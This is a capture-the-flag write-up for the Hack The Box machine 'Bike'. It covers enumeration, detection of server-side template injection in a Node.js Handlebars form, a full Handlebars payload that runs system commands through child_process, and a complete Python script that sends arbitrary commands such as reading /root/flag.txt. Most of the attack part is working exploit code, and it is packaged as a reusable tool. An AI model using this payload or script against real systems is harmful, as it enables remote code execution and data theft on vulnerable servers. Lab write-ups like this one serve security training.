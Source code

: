 ﻿# HTB Bike - SSTI Exploit Write-up

![Bike Logo](https://infosec-db.github.io/CyberDepot/assets/htb-bike.png)

## Overview
**HTB Bike** is a *Hack The Box* machine that involves exploiting a **Server-Side Template Injection (SSTI)** vulnerability in a **Node.js Handlebars template engine**. This write-up provides a detailed walkthrough of the exploitation process and includes a fully automated **SQLmap-styled** exploit script.

---

## Enumeration

### **🔍 Nmap Scan**
We start by scanning the target with **Nmap**:

```bash
nmap -sC -sV -p- 10.129.6.196
```

This reveals:
- **Port 22 (SSH)** - Ignored (no creds available).
- **Port 80 (HTTP)** - Running an **Express.js** server.

### **🔍 Identifying SSTI**
When interacting with the email subscription form on the web page, our input is reflected back:

```html
We will contact you at: <input>
```

We test for **Server-Side Template Injection (SSTI)** using:

```bash
curl -X POST http://10.129.6.196/ -d "email={{7*7}}"
```

If the response contains `49`, **the site is vulnerable!** ✅

---

## Exploitation

### **🔗 Exploit Payload**
Using **Handlebars SSTI**, we craft a payload that executes system commands:

```handlebars
{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return process.mainModule.require('child_process').execSync('whoami').toString();"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```

This **bypasses sandboxing** and allows **Remote Code Execution (RCE)**!

---

## 🚀 Automating the Exploit

We use a **fully automated Python script** with:
✅ **SQLmap-style output**  
✅ **Fancy ASCII banner**  
✅ **JSON debugging for failed extractions**  

### **📜 Proof of Concept (PoC) Exploit Script**

```python
import requests
import re
import json
import time
import sys
from pyfiglet import Figlet

# Colors for output formatting (SQLmap-style)
RED = "\033[1;91m"
GREEN = "\033[1;92m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
CYAN = "\033[1;96m"
WHITE = "\033[1;97m"
RESET = "\033[0m"

# Target URL
TARGET = "http://10.129.6.196/"

# Headers for the request
HEADERS = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Fancy banner
def print_banner():
    """Displays a fancy ASCII banner using pyfiglet."""
    f = Figlet(font="smmono9")  # Ensure this font is installed, or pick another
    banner_text = f.renderText("BikePwn")

    print(f"{CYAN}{banner_text}{RESET}")
    print("=" * 80)
    print(f"{CYAN}  Server-Side Template Injection Exploit - HTB Bike {RESET}")
    print(f"{CYAN}  Made by #AfterDark {RESET}")
    print("=" * 80)
    print(f"{YELLOW}[!] DISCLAIMER: Use this tool for authorized testing only. {RESET}")
    print(f"{YELLOW}    The author assumes no liability for misuse. {RESET}")
    print("=" * 80)

# Function to display SQLmap-style log messages
def log_message(level, message):
    timestamp = time.strftime("%H:%M:%S")
    symbols = {"INFO": f"{BLUE}[{timestamp}] [INFO] {RESET}",
               "SUCCESS": f"{GREEN}[{timestamp}] [SUCCESS] {RESET}",
               "WARNING": f"{YELLOW}[{timestamp}] [WARNING] {RESET}",
               "ERROR": f"{RED}[{timestamp}] [ERROR] {RESET}"}
    
    print(f"{symbols[level]}{message}")

# Function to check SSTI vulnerability
def check_ssti():
    payload = "{{7*7}}"
    data = {"email": payload}
    
    try:
        response = requests.post(TARGET, headers=HEADERS, data=data)
        if "49" in response.text or "error" in response.text:
            log_message("SUCCESS", "SSTI vulnerability detected!")
            return True
    except requests.exceptions.RequestException as e:
        log_message("ERROR", f"Connection error during SSTI check: {e}")
    
    log_message("WARNING", "SSTI does not seem to be present.")
    return False

# Function to execute a command via SSTI
def execute_command(cmd):
    """Executes a command using SSTI and prints debug info."""
    log_message("INFO", f"Executing command: {cmd}")

    ssti_payload = f"""{{{{#with "s" as |string|}}}}
{{{{#with "e"}}}}
{{{{#with split as |conslist|}}}}
{{{{this.pop}}}}
{{{{this.push (lookup string.sub "constructor")}}}}
{{{{this.pop}}}}
{{{{#with string.split as |codelist|}}}}
{{{{this.pop}}}}
{{{{this.push "return process.mainModule.require('child_process').execSync('{cmd}').toString();"}}}}
{{{{this.pop}}}}
{{{{#each conslist}}}}
{{{{#with (string.sub.apply 0 codelist)}}}}
{{{{this}}}}
{{{{/with}}}}
{{{{/each}}}}
{{{{/with}}}}
{{{{/with}}}}
{{{{/with}}}}
{{{{/with}}}}"""

    data = {"email": ssti_payload}

    try:
        response = requests.post(TARGET, headers=HEADERS, data=data, timeout=10)
        return response.text.strip()
    except requests.exceptions.RequestException as e:
        log_message("ERROR", f"Connection error: {e}")
        return "[-] Command execution failed."

# Function to get the flag
def get_flag():
    log_message("INFO", "Fetching flag from /root/flag.txt")
    flag = execute_command("cat /root/flag.txt")

    if len(flag) > 5:
        log_message("SUCCESS", f"Flag: {flag}")
    else:
        log_message("WARNING", "Could not retrieve the flag.")

# Main function
def main():
    print_banner()
    
    log_message("INFO", "Starting SSTI Exploit for Bike HTB Machine")

    if check_ssti():
        log_message("INFO", "Checking user privileges...")
        user = execute_command("whoami")
        log_message("SUCCESS", f"Running as: {user}")

        get_flag()
    else:
        log_message("ERROR", "SSTI exploitation failed.")

if __name__ == "__main__":
    main()
```

---

## 📜 Conclusion
This challenge demonstrates **how dangerous SSTI can be**, especially in **Node.js-based applications**. The exploit works by **breaking out of the Handlebars sandbox** and gaining **full system control**.

---
🛠️ **Credits:**  
💀 Developed by **#AfterDark**  
🔗 [CyberDepot](https://infosec-db.github.io/CyberDepot/) - More Exploits & Writeups  
